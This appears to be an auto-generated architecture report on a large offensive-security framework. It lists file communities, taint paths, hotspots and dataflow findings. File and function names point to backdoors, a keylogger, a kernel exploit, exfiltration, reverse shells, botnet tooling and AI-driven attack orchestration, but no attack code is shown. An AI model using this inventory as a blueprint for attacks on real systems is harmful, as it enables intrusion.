- `chain_mode.py` (py, 23 symbols)
- `command_chain.py` (py, 25 symbols)
- `command_explorer.py` (py, 7 symbols)
- `command_form.py` (py, 31 symbols)
- `__init__.py` (py, 0 symbols)
- `containers.py` (py, 7 symbols)
- `help_ui.py` (py, 16 symbols)
- `orchestration.py` (py, 15 symbols)
- `purple_team.py` (py, 14 symbols)
- `recon.py` (py, 14 symbols)
- `config_status.py` (py, 6 symbols)
- `contextual_help.py` (py, 10 symbols)
- `doctor.py` (py, 21 symbols)
- `exploit_advisor.py` (py, 11 symbols)
- `exploration.py` (py, 48 symbols)
- `exploration_view.py` (py, 6 symbols)
- `graph_overlay.py` (py, 26 symbols)
- `lazynmap_post.py` (py, 9 symbols)
- ... and 77 more files

### modules: lazy_loop (Cohesion: 0.59)

**69 files** in this community:

- `exploit_migrated.py` (py, 52 symbols)
- `lazyloop.py` (py, 12 symbols)
- `lazyops.py` (py, 71 symbols)
- `mcp_bridge.py` (py, 20 symbols)
- `lazy_monitor.py` (py, 46 symbols)
- `lazy_orchestrator.py` (py, 43 symbols)
- `autonomous.py` (py, 3 symbols)
- `config.py` (py, 17 symbols)
- `terminal_guard.py` (py, 8 symbols)
- `__init__.py` (py, 0 symbols)
- `adcs_attacks.py` (py, 14 symbols)
- `auto_registry.py` (py, 37 symbols)
- `custom_tools.py` (py, 11 symbols)
- `exploit_chain.py` (py, 19 symbols)
- `jsonl_tail.py` (py, 3 symbols)
- `lazy_agent.py` (py, 32 symbols)
- `lazy_bridge.py` (py, 19 symbols)
- `lazy_cli_bridge.py` (py, 13 symbols)
- `lazy_engine.py` (py, 1 symbols)
- `lazy_installer.py` (py, 6 symbols)
- ... and 49 more files

### lazygui/panels (Cohesion: 0.94)

**54 files** in this community:

- `__main__.py` (py, 1 symbols)
- `app.py` (py, 14 symbols)
- `__init__.py` (py, 0 symbols)
- `c2_credentials.py` (py, 4 symbols)
- `constants.py` (py, 14 symbols)
- `paths.py` (py, 10 symbols)
- `settings.py` (py, 18 symbols)
- `__init__.py` (py, 0 symbols)
- `base.py` (py, 4 symbols)
- `campaign_panel.py` (py, 9 symbols)
- `credentials_panel.py` (py, 5 symbols)
- `cve_panel.py` (py, 7 symbols)
- `event_log_panel.py` (py, 3 symbols)
- `graph_panel.py` (py, 7 symbols)
- `history_panel.py` (py, 4 symbols)
- `killchain_panel.py` (py, 6 symbols)
- `listeners_panel.py` (py, 6 symbols)
- `marketplace_panel.py` (py, 15 symbols)
- `registry.py` (py, 5 symbols)
- `sessions_panel.py` (py, 10 symbols)
- ... and 34 more files

### modules: estorides_importer (Cohesion: 0.46)

**50 files** in this community:

- `estorides.py` (py, 9 symbols)
- `opsec_cleanup.py` (py, 9 symbols)
- `security.py` (py, 8 symbols)
- `api_authz.py` (py, 31 symbols)
- `credential_vault.py` (py, 8 symbols)
- `crypto.py` (py, 7 symbols)
- `protocols.py` (py, 12 symbols)
- `addon_creator.py` (py, 38 symbols)
- `app_factory.py` (py, 9 symbols)
- `__init__.py` (py, 0 symbols)
- `addons.py` (py, 14 symbols)
- `api.py` (py, 10 symbols)
- `api_v1.py` (py, 12 symbols)
- `operations.py` (py, 13 symbols)
- `session_auth.py` (py, 2 symbols)
- `__init__.py` (py, 0 symbols)
- `decoy.py` (py, 1 symbols)
- `storage.py` (py, 12 symbols)
- `csrf.py` (py, 11 symbols)
- `beacon_history.py` (py, 7 symbols)
- ... and 30 more files

### static/js (Cohesion: 0.48)

**29 files** in this community:

- `assign.py` (py, 1 symbols)
- `show.py` (py, 1 symbols)
- `style.py` (py, 4 symbols)
- `lazybinenc.py` (py, 2 symbols)
- `payload_schema.py` (py, 27 symbols)
- `process.py` (py, 12 symbols)
- `prompt.py` (py, 8 symbols)
- `key.py` (py, 1 symbols)
- `state.py` (py, 0 symbols)
- `init.sh` (sh, 0 symbols)
- `exp.c` (c, 58 symbols)
- `search.py` (py, 0 symbols)
- `3d-force-graph-1.73.4.min.js` (js, 176 symbols)
- `bootstrap-4.5.2.min.js` (js, 7 symbols)
- `bootstrap-5.3.0.bundle.min.js` (js, 28 symbols)
- `chart.min.js` (js, 88 symbols)
- `force-graph-1.43.5.min.js` (js, 31 symbols)
- `html2pdf.bundle.min.js` (js, 738 symbols)
- `jquery-3.5.1.slim.min.js` (js, 6 symbols)
- `particles.js` (js, 11 symbols)
- ... and 9 more files

### cli: banner_config (Cohesion: 0.46)

**29 files** in this community:

- `banner_config.py` (py, 120 symbols)
- `cli_auth.py` (py, 5 symbols)
- `exploitgym.py` (py, 10 symbols)
- `redteam_gym.py` (py, 8 symbols)
- `ux.py` (py, 9 symbols)
- `config_history.py` (py, 9 symbols)
- `engagement_hooks.py` (py, 32 symbols)
- `fuzzy_match.py` (py, 3 symbols)
- `fuzzy_picker.py` (py, 41 symbols)
- `session_hud.py` (py, 9 symbols)
- `__init__.py` (py, 0 symbols)
- `auth.py` (py, 19 symbols)
- `users.py` (py, 3 symbols)
- `models.py` (py, 2 symbols)
- `cli_auth.py` (py, 18 symbols)
- `exploitgym_gym.py` (py, 20 symbols)
- `lazy_rbac.py` (py, 86 symbols)
- `redteam_gym.py` (py, 18 symbols)
- `socket.io-4.0.0.min.js` (js, 32 symbols)
- `socket.io-4.3.2.min.js` (js, 15 symbols)
- ... and 9 more files

### cli/commands: c2_profile_engine (Cohesion: 0.42)

**26 files** in this community:

- `bof_registry.py` (py, 12 symbols)
- `c2_profile.py` (py, 5 symbols)
- `enum.py` (py, 11 symbols)
- `sleep_obfuscation.py` (py, 4 symbols)
- `socks_proxy.py` (py, 4 symbols)
- `scope_guard.py` (py, 12 symbols)
- `command_allowlist.py` (py, 8 symbols)
- `beacon_config_builder.py` (py, 14 symbols)
- `bof_registry.py` (py, 43 symbols)
- `c2_profile_engine.py` (py, 47 symbols)
- `sleep_obfuscation.py` (py, 28 symbols)
- `socks_proxy.py` (py, 31 symbols)
- `lazyown_claudemd.py` (py, 8 symbols)
- `lazyown_context.py` (py, 11 symbols)
- `lazyown_hooks.py` (py, 14 symbols)
- `lazyown_permissions.py` (py, 16 symbols)
- `lazyown_session.py` (py, 14 symbols)
- `test_harness_e2e.py` (py, 10 symbols)
- `test_beacon_config_builder.py` (py, 16 symbols)
- `test_bof_registry.py` (py, 51 symbols)
- ... and 6 more files

### skills/claude_md_orchestrator (Cohesion: 0.79)

**17 files** in this community:

- `lazyown_bprfuzzer.py` (py, 15 symbols)
- `security_sanitizers.py` (py, 25 symbols)
- `pwntomate.py` (py, 3 symbols)
- `__init__.py` (py, 0 symbols)
- `bdd_agent.py` (py, 8 symbols)
- `boy_scout.py` (py, 5 symbols)
- `cicd_agent.py` (py, 7 symbols)
- `config.py` (py, 15 symbols)
- `documentation_agent.py` (py, 7 symbols)
- `models.py` (py, 32 symbols)
- `orchestrator.py` (py, 21 symbols)
- `parser.py` (py, 13 symbols)
- `reviewer_agent.py` (py, 10 symbols)
- `sdd_agent.py` (py, 6 symbols)
- `tdd_agent.py` (py, 7 symbols)
- `validators.py` (py, 15 symbols)
- `test_security_sanitizers.py` (py, 45 symbols)

### modules: surface_graph (Cohesion: 0.53)

**15 files** in this community:

- `database.py` (py, 16 symbols)
- `surface.py` (py, 3 symbols)
- `surface_graph.py` (py, 33 symbols)
- `surface_tui.py` (py, 19 symbols)
- `attack_surface3d.py` (py, 11 symbols)
- `estorides_fusion.py` (py, 11 symbols)
- `finding_lifecycle.py` (py, 26 symbols)
- `intel_fusion.py` (py, 23 symbols)
- `osint_enrich.py` (py, 13 symbols)
- `surface_ops.py` (py, 4 symbols)
- `test_attack_surface3d.py` (py, 8 symbols)
- `test_estorides_fusion.py` (py, 12 symbols)
- `test_finding_lifecycle.py` (py, 10 symbols)
- `test_intel_fusion.py` (py, 7 symbols)
- `test_surface_graph.py` (py, 13 symbols)

### modules: kerberos_core (Cohesion: 0.88)

**7 files** in this community:

- `active_directory.py` (py, 8 symbols)
- `dacl_abuse.py` (py, 15 symbols)
- `delegation_attacks.py` (py, 12 symbols)
- `gpo_abuse.py` (py, 16 symbols)
- `kerberoasting.py` (py, 18 symbols)
- `kerberos_core.py` (py, 35 symbols)
- `kerberos_tickets.py` (py, 34 symbols)

### modules: saas_attacks (Cohesion: 0.86)

**7 files** in this community:

- `cloud_attacks.py` (py, 7 symbols)
- `aws_attacks.py` (py, 11 symbols)
- `cross_cloud.py` (py, 10 symbols)
- `entra_id_attacks.py` (py, 12 symbols)
- `gcp_attacks.py` (py, 11 symbols)
- `k8s_attacks.py` (py, 11 symbols)
- `saas_attacks.py` (py, 15 symbols)

### skills/hermes-lazyown (Cohesion: 0.85)

**7 files** in this community:

- `claudemd_rules.py` (py, 14 symbols)
- `config_bridge.py` (py, 16 symbols)
- `constants.py` (py, 15 symbols)
- `executor.py` (py, 13 symbols)
- `hermes_sync.py` (py, 14 symbols)
- `mcp_server.py` (py, 28 symbols)
- `output_compactor.py` (py, 20 symbols)

### modules: polymorphic_engine (Cohesion: 0.83)

**6 files** in this community:

- `payload_arsenal.py` (py, 7 symbols)
- `dotnet_payload.py` (py, 12 symbols)
- `linux_advanced_payloads.py` (py, 17 symbols)
- `macos_payloads.py` (py, 16 symbols)
- `polymorphic_engine.py` (py, 19 symbols)
- `staged_delivery.py` (py, 18 symbols)

### contrib/legacy (Cohesion: 0.80)

**5 files** in this community:

- `lazycreate_webshell.py` (py, 0 symbols)
- `lazylogpoisoning.py` (py, 3 symbols)
- `lazyreversentlmv2.py` (py, 2 symbols)
- `lazyencoder_decoder.py` (py, 10 symbols)
- `test_lazyencoder_decoder.py` (py, 0 symbols)

### scripts: journal (Cohesion: 1.00)

**3 files** in this community:

- `journal.py` (py, 14 symbols)
- `read_journal.py` (py, 2 symbols)
- `test_journal.py` (py, 10 symbols)

### modules/backdoor (Cohesion: 1.00)

**2 files** in this community:

- `backdoor.c` (c, 5 symbols)
- `keylogger.h` (h, 1 symbols)

### poc_tui (Cohesion: 1.00)

**2 files** in this community:

- `config.py` (py, 11 symbols)
- `plugin_loader.py` (py, 22 symbols)

### scripts: check_contract_manifest (Cohesion: 1.00)

**2 files** in this community:

- `check_contract_manifest.py` (py, 13 symbols)
- `test_contract_manifest.py` (py, 4 symbols)

### scripts: migrate_lazyown (Cohesion: 1.00)

**2 files** in this community:

- `migrate_lazyown.py` (py, 6 symbols)
- `test_migrate_lazyown_generator.py` (py, 6 symbols)

### test (Cohesion: 1.00)

**2 files** in this community:

- `config.py` (py, 2 symbols)
- `test_commands.py` (py, 15 symbols)

### tools (Cohesion: 1.00)

**2 files** in this community:

- `gen_demo_gifs.py` (py, 3 symbols)
- `gen_demo_gifs_extra.py` (py, 1 symbols)

---

## Surprising Connections

Files in different communities connected through 3+ indirect hops.

- `__init__.py` <-> `search.py` (9 hops, across 5 communities)
- `kerberos_core.py` <-> `search.py` (9 hops, across 3 communities)
- `session_auth.py` <-> `search.py` (8 hops, across 4 communities)
- `__init__.py` <-> `state.py` (8 hops, across 4 communities)
- `__init__.py` <-> `exp.c` (8 hops, across 4 communities)

---

## Suggested Questions

Auto-generated exploration prompts based on graph structure:

- What does logging.py depend on, and what depends on it? (124 connections)
- What does utils.py depend on, and what depends on it? (100 connections)
- What does _base.py depend on, and what depends on it? (91 connections)
- How are the 125 files in 'cli/commands: utils' related to each other?
- Why are __init__.py and search.py connected through 9 hops across 5 communities?

---

## Force-Graph Explorer

Heterogeneous explorer payload (files, communities, layers, externals) rendered with force-graph physics, stable family colors, log2 node sizing, and convex-hull community overlays. Open `readmenator-maps/graph-force.html` (linked from the maps gallery) or run `explorer`.

- Nodes: 1408 (community: 24, external: 363, file: 1015, layer: 6)
- Edges: 11719

---

## Corpus Analytics

Attribution funnel and distributions for the explorer dashboard.

- Files: 1015 | With symbols: 931 | Attributed: 794 | God nodes: 10 | Symbols: 19585

- Layer `utility`: 620 files
- Layer `testing`: 262 files
- Layer `infrastructure`: 72 files
- Layer `presentation`: 37 files
- Layer `business_logic`: 19 files
- Layer `data_access`: 5 files

- Language `py`: 887 files
- Language `sh`: 61 files
- Language `lua`: 26 files
- Language `js`: 21 files
- Language `c`: 15 files
- Language `asm`: 1 files
- Language `cpp`: 1 files
- Language `cs`: 1 files
- Language `h`: 1 files
- Language `php`: 1 files

---

## Taint Propagation Map

Taint analysis traces how dangerous imports propagate through the codebase via transitive dependencies. Source files import dangerous modules directly; sink files receive the danger indirectly.

**Taint Sources:** 1 | **Taint Sinks:** 24 | **Propagation Paths:** 20

- `banner_config.py` imports `subprocess` (0 hop to `banner_config.py`) [high]
  Path: banner_config.py
- `banner_config.py` imports `subprocess` (1 hop to `parsers.py`) [high]
  Path: banner_config.py -> parsers.py
- `banner_config.py` imports `subprocess` (1 hop to `engagement_hooks.py`) [high]
  Path: banner_config.py -> engagement_hooks.py
- `banner_config.py` imports `subprocess` (1 hop to `cli_auth.py`) [high]
  Path: banner_config.py -> cli_auth.py
- `banner_config.py` imports `subprocess` (1 hop to `safe_exec.py`) [high]
  Path: banner_config.py -> safe_exec.py
- `banner_config.py` imports `subprocess` (2 hops to `lazy_rbac.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py
- `banner_config.py` imports `subprocess` (2 hops to `config.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> config.py
- `banner_config.py` imports `subprocess` (2 hops to `palette.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> palette.py
- `banner_config.py` imports `subprocess` (2 hops to `logging.py`) [high]
  Path: banner_config.py -> safe_exec.py -> logging.py
- `banner_config.py` imports `subprocess` (3 hops to `enum.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py
- `banner_config.py` imports `subprocess` (3 hops to `payload_schema.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> config.py -> payload_schema.py
- `banner_config.py` imports `subprocess` (4 hops to `_base.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> _base.py
- `banner_config.py` imports `subprocess` (4 hops to `validators.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> validators.py
- `banner_config.py` imports `subprocess` (4 hops to `utils.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> utils.py
- `banner_config.py` imports `subprocess` (4 hops to `llm_factory.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> config.py -> payload_schema.py -> llm_factory.py
- `banner_config.py` imports `subprocess` (5 hops to `console.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> validators.py -> ...
- `banner_config.py` imports `subprocess` (5 hops to `host_policy.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> validators.py -> ...
- `banner_config.py` imports `subprocess` (5 hops to `lazyencoder_decoder.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> utils.py -> ...
- `banner_config.py` imports `subprocess` (5 hops to `safe_subprocess.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> utils.py -> ...
- `banner_config.py` imports `subprocess` (5 hops to `process.py`) [high]
  Path: banner_config.py -> engagement_hooks.py -> lazy_rbac.py -> enum.py -> utils.py -> ...

---

## Hotspot Analysis

Files ranked by combined complexity (symbol count) and centrality (connection count). High-scoring files are architecturally critical and may need refactoring attention.

| File | Complexity | Centrality | Combined | Symbols | Connections |
|------|-----------|------------|----------|---------|-------------|
| `parsers.py` | 0.001 | 0.002 | 0.002 | 1 | 12 |
| `decoy.py` | 0.001 | 0.001 | 0.001 | 1 | 5 |
| `tokens.py` | 0.001 | 0.002 | 0.002 | 1 | 13 |
| `lazy_engine.py` | 0.001 | 0.016 | 0.010 | 1 | 123 |
| `text_utils.py` | 0.001 | 0.001 | 0.001 | 1 | 9 |
| `assign.py` | 0.001 | 0.017 | 0.010 | 1 | 129 |
| `show.py` | 0.001 | 0.008 | 0.005 | 1 | 62 |
| `mcp_lazy.py` | 0.001 | 0.001 | 0.001 | 1 | 4 |
| `phase_labels.py` | 0.001 | 0.001 | 0.001 | 1 | 4 |
| `__main__.py` | 0.001 | 0.001 | 0.001 | 1 | 4 |
| `html2pdf.bundle.min.js` | 1.000 | 0.629 | 0.777 | 738 | 4927 |
| `3d-force-graph-1.73.4.min.js` | 0.238 | 1.000 | 0.695 | 176 | 7838 |
| `mcp_generated_tools.py` | 0.874 | 0.000 | 0.350 | 645 | 2 |
| `vis-network-9.1.2.min.js` | 0.183 | 0.428 | 0.330 | 135 | 3354 |
| `vis-network.min.js` | 0.183 | 0.428 | 0.330 | 135 | 3354 |

---

## Dataflow Analysis

Procedural intra-function dataflow findings (zero tokens, regex-based heuristics, all INFERRED). Each lead is grounded at file:line for manual review.

**50 findings** (DEAD_STORE: 10, UNCHECKED_ALLOC: 40).

| File | Function | Line | Kind | Variable | Description |
|------|----------|------|------|----------|-------------|
| `banner.py` | `image_to_bash` | 29 | `UNCHECKED_ALLOC` | `img` | Result of allocator stored in `img` is never checked against NULL. |
| `cli/auto_crypto.py` | `_load_or_create_salt` | 272 | `UNCHECKED_ALLOC` | `fd` | Result of allocator stored in `fd` is never checked against NULL. |
| `cli/commands/dns_exfil.py` | `do_dns_exfil_listen` | 117 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `cli/commands/evasive_payload.py` | `_apply_bypass` | 648 | `UNCHECKED_ALLOC` | `s` | Result of allocator stored in `s` is never checked against NULL. |
| `cli/commands/exfiltration.py` | `do_exfil_dns` | 1382 | `UNCHECKED_ALLOC` | `data` | Result of allocator stored in `data` is never checked against NULL. |
| `cli/commands/exfiltration.py` | `do_exfil_http` | 1449 | `UNCHECKED_ALLOC` | `file_hash` | Result of allocator stored in `file_hash` is never checked against NULL. |
| `cli/commands/exfiltration.py` | `do_stage` | 1578 | `UNCHECKED_ALLOC` | `data` | Result of allocator stored in `data` is never checked against NULL. |
| `cli/commands/misc_migrated.py` | `do_suggest_next` | 333 | `UNCHECKED_ALLOC` | `_idx` | Result of allocator stored in `_idx` is never checked against NULL. |
| `cli/commands/persist_migrated.py` | `do_knokknok` | 1186 | `UNCHECKED_ALLOC` | `client_socket` | Result of allocator stored in `client_socket` is never checked against NULL. |
| `cli/commands/postexp_migrated.py` | `do_aes_pe` | 2599 | `UNCHECKED_ALLOC` | `file` | Result of allocator stored in `file` is never checked against NULL. |
| `cli/commands/recon.py` | `_run_single_search` | 609 | `UNCHECKED_ALLOC` | `_s` | Result of allocator stored in `_s` is never checked against NULL. |
| `cli/lazynmap_post.py` | `_emit_event` | 244 | `UNCHECKED_ALLOC` | `fd` | Result of allocator stored in `fd` is never checked against NULL. |
| `contrib/legacy/lazy_http_bof.py` | `exploit` | 30 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `contrib/legacy/lazyarpspoofing.py` | `get_local_ip` | 42 | `UNCHECKED_ALLOC` | `s` | Result of allocator stored in `s` is never checked against NULL. |
| `contrib/legacy/lazybotcli.py` | `main` | 59 | `UNCHECKED_ALLOC` | `conn` | Result of allocator stored in `conn` is never checked against NULL. |
| `contrib/legacy/lazybotnet.py` | `send_to_botnet` | 79 | `UNCHECKED_ALLOC` | `conn` | Result of allocator stored in `conn` is never checked against NULL. |
| `contrib/legacy/lazybotnet.py` | `start_server` | 188 | `UNCHECKED_ALLOC` | `server` | Result of allocator stored in `server` is never checked against NULL. |
| `contrib/legacy/lazyhoneypot.py` | `main` | 181 | `UNCHECKED_ALLOC` | `server` | Result of allocator stored in `server` is never checked against NULL. |
| `contrib/legacy/lazylfi2rce.py` | `main` | 86 | `UNCHECKED_ALLOC` | `wordlist` | Result of allocator stored in `wordlist` is never checked against NULL. |
| `contrib/legacy/lazyopenssh77enum2.py` | `check_user` | 51 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `contrib/legacy/lazyproxy.py` | `handle_request` | 153 | `UNCHECKED_ALLOC` | `server_socket` | Result of allocator stored in `server_socket` is never checked against NULL. |
| `contrib/legacy/lazyproxy.py` | `start_proxy` | 184 | `UNCHECKED_ALLOC` | `proxy_socket` | Result of allocator stored in `proxy_socket` is never checked against NULL. |
| `contrib/legacy/lazyseo.py` | `results` | 50 | `UNCHECKED_ALLOC` | `content` | Result of allocator stored in `content` is never checked against NULL. |
| `contrib/legacy/lazyssh.py` | `execute` | 14 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `lazyc2.py` | `_probe_bind` | 343 | `UNCHECKED_ALLOC` | `probe` | Result of allocator stored in `probe` is never checked against NULL. |
| `lazyc2.py` | `tcp_bridge` | 1862 | `UNCHECKED_ALLOC` | `server_socket` | Result of allocator stored in `server_socket` is never checked against NULL. |
| `lazyc2.py` | `start_reverse_shell` | 6857 | `UNCHECKED_ALLOC` | `server_socket` | Result of allocator stored in `server_socket` is never checked against NULL. |
| `modules/auto_pivot.py` | `health_check` | 222 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `modules/backdoor/backdoor.c` | `str_cut` | 79 | `UNCHECKED_ALLOC` | `buffer` | Result of allocator stored in `buffer` is never checked against NULL. |
| `modules/backdoor/backdoor.c` | `WinMain` | 145 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `modules/backdoor/keylogger.h` | `logg` | 95 | `UNCHECKED_ALLOC` | `kh` | Result of allocator stored in `kh` is never checked against NULL. |
| `modules/backdoor/server.c` | `main` | 19 | `UNCHECKED_ALLOC` | `sock` | Result of allocator stored in `sock` is never checked against NULL. |
| `modules/bin2img.py` | `binario_a_imagen` | 17 | `UNCHECKED_ALLOC` | `img` | Result of allocator stored in `img` is never checked against NULL. |
| `modules/command_executor.py` | `run_tee` | 224 | `UNCHECKED_ALLOC` | `handle` | Result of allocator stored in `handle` is never checked against NULL. |
| `modules/detailed_search.py` | `obtener_informacion` | 91 | `UNCHECKED_ALLOC` | `csv_file` | Result of allocator stored in `csv_file` is never checked against NULL. |
| `modules/estorides_importer.py` | `_import_to_scope` | 809 | `UNCHECKED_ALLOC` | `cfg` | Result of allocator stored in `cfg` is never checked against NULL. |
| `modules/estorides_importer.py` | `get_combined_surface` | 861 | `UNCHECKED_ALLOC` | `cfg` | Result of allocator stored in `cfg` is never checked against NULL. |
| `modules/estorides_importer.py` | `get_combined_surface` | 869 | `UNCHECKED_ALLOC` | `wm` | Result of allocator stored in `wm` is never checked against NULL. |
| `modules/exp.c` | `spray_keyring_list_overwrite_purpose` | 218 | `UNCHECKED_ALLOC` | `id_buffer` | Result of allocator stored in `id_buffer` is never checked against NULL. |
| `modules/exp.c` | `awake_partial_keys` | 274 | `DEAD_STORE` | `keylen` | `keylen` assigned at line 274 but never read afterwards. |
| `modules/exp.c` | `unshare_setup` | 313 | `UNCHECKED_ALLOC` | `temp` | Result of allocator stored in `temp` is never checked against NULL. |
| `modules/exp.c` | `set_stable_table_and_set` | 340 | `DEAD_STORE` | `set_id` | `set_id` assigned at line 340 but never read afterwards. |
| `modules/exp.c` | `set_stable_table_and_set` | 344 | `DEAD_STORE` | `exprid` | `exprid` assigned at line 344 but never read afterwards. |
| `modules/exp.c` | `set_stable_table_and_set` | 371 | `DEAD_STORE` | `seq` | `seq` assigned at line 371 but never read afterwards. |
| `modules/exp.c` | `set_stable_table_and_set` | 356 | `DEAD_STORE` | `table_seq` | `table_seq` assigned at line 356 but never read afterwards. |
| `modules/exp.c` | `set_trigger_set_and_overwrite` | 406 | `DEAD_STORE` | `exprid` | `exprid` assigned at line 406 but never read afterwards. |
| `modules/exp.c` | `set_trigger_set_and_overwrite` | 423 | `DEAD_STORE` | `seq` | `seq` assigned at line 423 but never read afterwards. |
| `modules/exp.c` | `spray_mqueue` | 453 | `DEAD_STORE` | `unresolved` | `unresolved` assigned at line 453 but never read afterwards. |
| `modules/exp.c` | `spray_mqueue` | 455 | `DEAD_STORE` | `priority` | `priority` assigned at line 455 but never read afterwards. |
| `modules/exp.c` | `gather_mqueue` | 465 | `DEAD_STORE` | `priority` | `priority` assigned at line 465 but never read afterwards. |

---

## Concept Graph

Semantic second-brain layer: nouns are concept nodes, verbs are edges. Each noun maps atomically to a file set (EXTRACTED); each verb aggregates structural imports, calls, and inherits into consumes, invokes, extends, depends_on, or bridges (INFERRED).

**50 concepts, 100 relations.**

| Concept | Files | Mentions |
|---------|-------|----------|
| `returns` | 476 | 2791 |
| `command` | 414 | 2942 |
| `when` | 403 | 1692 |
| `modules` | 390 | 743 |
| `return` | 388 | 3923 |
| `lazy` | 386 | 1219 |
| `file` | 361 | 1717 |
| `all` | 359 | 989 |
| `list` | 354 | 1348 |
| `not` | 347 | 1114 |
| `own` | 338 | 788 |
| `args` | 336 | 1602 |
| `path` | 328 | 1304 |
| `cli` | 323 | 743 |
| `run` | 321 | 1404 |
| `one` | 318 | 857 |
| `json` | 315 | 1289 |
| `name` | 309 | 1324 |
| `every` | 307 | 781 |
| `only` | 303 | 645 |
| `without` | 300 | 615 |
| `set` | 296 | 1420 |
| `empty` | 291 | 785 |
| `payload` | 283 | 1335 |
| `commands` | 278 | 932 |
| `single` | 278 | 575 |
| `string` | 270 | 893 |
| `none` | 263 | 961 |
| `get` | 261 | 1394 |
| `shell` | 259 | 1190 |

### Verb Edges

| Source | Verb | Target | Strength | Evidence |
|--------|------|--------|----------|----------|
| `command` | `depends_on` | `returns` | 1.00 | 10 |
| `command` | `depends_on` | `return` | 0.99 | 10 |
| `command` | `depends_on` | `args` | 0.92 | 10 |
| `command` | `depends_on` | `when` | 0.92 | 10 |
| `returns` | `depends_on` | `return` | 0.90 | 10 |
| `cli` | `depends_on` | `returns` | 0.88 | 10 |
| `when` | `depends_on` | `return` | 0.88 | 10 |
| `command` | `depends_on` | `single` | 0.87 | 10 |
| `lazy` | `depends_on` | `return` | 0.86 | 10 |
| `command` | `depends_on` | `lazy` | 0.85 | 10 |
| `lazy` | `depends_on` | `returns` | 0.85 | 10 |
| `returns` | `depends_on` | `when` | 0.85 | 10 |
| `when` | `depends_on` | `returns` | 0.85 | 10 |
| `cli` | `depends_on` | `return` | 0.84 | 10 |
| `set` | `depends_on` | `returns` | 0.84 | 10 |
| `all` | `depends_on` | `return` | 0.83 | 10 |
| `all` | `depends_on` | `returns` | 0.83 | 10 |
| `set` | `depends_on` | `return` | 0.83 | 10 |
| `cli` | `depends_on` | `args` | 0.82 | 10 |
| `list` | `depends_on` | `return` | 0.82 | 10 |
| `command` | `depends_on` | `own` | 0.81 | 10 |
| `list` | `depends_on` | `returns` | 0.81 | 10 |
| `returns` | `depends_on` | `args` | 0.81 | 10 |
| `run` | `depends_on` | `return` | 0.81 | 10 |
| `cli` | `depends_on` | `when` | 0.80 | 10 |
| `lazy` | `depends_on` | `when` | 0.80 | 10 |
| `return` | `depends_on` | `returns` | 0.80 | 10 |
| `returns` | `depends_on` | `single` | 0.80 | 10 |
| `commands` | `depends_on` | `returns` | 0.79 | 10 |
| `own` | `depends_on` | `return` | 0.79 | 10 |

### Dialectic Prompts

- Thesis: `all` centralizes 359 files; Antithesis: `args` pulls 336 files with 180 shared (Jaccard 0.35); Synthesis: should they merge, split by layer, or keep `depends_on` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `cli` pulls 323 files with 162 shared (Jaccard 0.31); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `command` pulls 414 files with 200 shared (Jaccard 0.35); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `commands` pulls 278 files with 147 shared (Jaccard 0.30); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `data` pulls 227 files with 141 shared (Jaccard 0.32); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `default` pulls 251 files with 144 shared (Jaccard 0.31); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `dict` pulls 216 files with 152 shared (Jaccard 0.36); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `file` pulls 361 files with 185 shared (Jaccard 0.35); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `get` pulls 261 files with 154 shared (Jaccard 0.33); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `all` centralizes 359 files; Antithesis: `json` pulls 315 files with 184 shared (Jaccard 0.38); Synthesis: should they merge, split by layer, or keep `bridges` explicit?

---

## Dependency Cycles

Circular dependencies detected in the resolved import graph. Cycles increase coupling and make refactoring harder.

| Cycle | Length | Files |
|-------|--------|-------|
| `utils.py -> parser.py -> models.py -> enum.py -> _base.py -> utils.py` | 5 | 5 |
| `utils.py -> parser.py -> models.py -> enum.py -> utils.py` | 4 | 4 |
| `lazy_loop.py -> auto_registry.py -> lazy_orchestrator_feedback.py -> lazy_intel.py -> lazy_loop.py` | 4 | 4 |
| `lazyown_mcp.py -> hive_mind.py -> lazyown_groq_agents.py -> lazyown_mcp.py` | 3 | 3 |
| `lazyown_mcp.py -> hive_mind.py -> lazyown_groq_agents.py -> lazyown_mcp.py` | 3 | 3 |
| `lazy_engine.py -> lazy_loop.py -> lazy_roles.py -> lazy_engine.py` | 3 | 3 |
| `autonomous_daemon.py -> lazyown_mcp.py -> autonomous_replay.py -> autonomous_daemon.py` | 3 | 3 |
